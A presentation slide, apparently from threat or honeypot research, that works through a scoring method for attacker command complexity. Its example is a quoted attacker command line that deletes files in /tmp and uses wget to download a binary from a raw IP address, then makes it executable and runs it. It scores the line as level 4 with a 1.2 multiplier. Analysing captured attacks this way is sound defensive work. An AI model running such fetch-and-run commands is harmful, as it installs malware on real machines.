

# Example Calculation

Noninteractive mode attacker command: cat /etc/issue; cd /tmp/; rm -rf x86*; wget http://179.43.175.58/x86_64; chmod 777 *; ./x86_64 hive-os-hager; echo Hive-Os hagerman
Command Complexity
Highest level command: wget
Level: 4
Noninteractive mode: no extra point
Score: 4
Attack Complexity
Number of commands: 7
Multiplying factor: 1.2
4 * 1.2 = 4.8
Score: 4.8